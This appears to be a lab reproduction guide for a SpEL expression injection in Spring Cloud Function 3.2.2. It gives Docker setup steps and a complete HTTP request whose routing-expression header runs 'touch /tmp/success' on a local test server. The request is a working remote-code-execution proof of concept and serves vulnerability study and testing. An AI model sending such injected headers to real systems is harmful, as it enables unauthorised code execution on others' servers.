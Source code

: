 # Spring Cloud Function SpEL Code Injection

Spring Cloud Function provides a common model for deploying function-based software on a variety of platforms, including FaaS (function as a service) platforms like Amazon AWS Lambda.

References:

- <https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw>
- <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

## Vulnerability Environment

Execute the following command to start a server that uses Spring Cloud Function 3.2.2:

```
docker-compose up -d
```

After server is started, execute `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` you can convert the user input to uppercase.

## Vulnerability Reproduce

There is a SpEL expression injection in the request header `spring.cloud.function.routing-expression`.

Send the following request to execute `touch /tmp/success` on the target server:

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![](1.png)

As you can see, `touch /tmp/success` has been executed successfully.

![](2.png)
